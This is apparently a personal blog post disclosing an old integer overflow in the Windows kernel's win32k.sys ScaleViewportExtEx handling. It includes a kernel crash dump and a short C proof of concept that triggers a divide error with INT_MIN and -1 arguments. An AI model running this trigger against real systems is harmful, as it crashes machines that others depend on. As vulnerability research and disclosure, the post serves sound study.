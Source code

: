 ```yaml
---
layout: post
title:  "Microsoft Windows Kernel - Win32k.sys Integer Overflow"
date:   2018-09-19 03:39:03 +0700
tags:
    - kernel
    - win32k
---
```


Description
-----------
Few years back I found an integer overflow in kernel (win32k.sys), should be around 2013. It was inspiration to Taviso's blog 
(he was targeting different API, https://gist.github.com/taviso/4658638). AFAIK, this bug has been fixed few months after I discovered 
it. The vulnerability could be reported by someone before me.

Vulnerability Analysis
----------------------
The bug actually was part of **Coordinate Spaces & Transformations** API. Example used of coordinate spaces & transformations,
 ```
  - Scale
  - Rotate
  - Translate
  - Shear
  - Reflect Graphics output
```
This is like we can see daily if used computer. **Coordinate Spaces** act as planar space that locates 2-dimensional objects, example: client area, desktop, page of printer paper. While **Transformations** is a algorithm alters size, orientation and shape of objects, example: Screen, printer. In Taviso blog, he found that the API **ScaleWindowExtEx** was vulnerable to integer overflow. 

I found the similar issue on the API **ScaleViewportExtEx**. The **ScaleViewportExtEx** function modifies the viewport for a device context 
using the ratios formed by the specified multiplicands and divisors. The syntax as in:
```
BOOL ScaleViewportExtEx(
  HDC    hdc,
  int    xn,
  int    dx,
  int    yn,
  int    yd,
  LPSIZE lpsz
);
```

It appears that there is no further checking after dividing the value. It does not recognize the pattern of **Positive** or **Negative** 
numbers. Signed divide **EDX:EAX** by **[ebp+Xdenom]**, with result stored as:

  ```EAX = High-Level Address, EDX = Integer Overflow```

A little trivia about integer overflow,
```
  - Sign of the remainder is always the same as the sign of the dividend.
  - The absolute value of the remainder is always less than the absolute value of the divisor. 
  - Overflow is indicated with the #DE (divide error) exception rather than with the OF (overflow) flag.
```
Crash triage upon run our executable
```
ErrCode = 00000000
eax=80000000 ebx=00000001 ecx=00340910 edx=ffffffff esi=e13ce008 edi=00000000
eip=bf941b8d esp=f671cd10 ebp=f671cd44 iopl=0         ov up ei ng nz na pe cy
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010286
win32k!NtGdiScaleViewPortExtEx+0x99:
bf941b8d f77d10          idiv    eax,dword ptr [ebp+10h] ss:0010:f671cd54=ffffffff
```

Crafted Proof-of-Concept as in following:
```
#include <windows.h>
#include <stdio.h>

int main(int argc, char **argv)
{
	LoadLibraryA("user32.dll");
	LoadLibraryA("gdi32.dll");
	
	HDC		dev_context;
	SIZE	Size;
	
	dev_context = CreateCompatibleDC(NULL);
	SetLayout(dev_context, LAYOUT_RTL);
	
	ScaleViewportExtEx(dev_context, INT_MIN, -1, -1, -1, &Size);
	
	return 0;
}
```
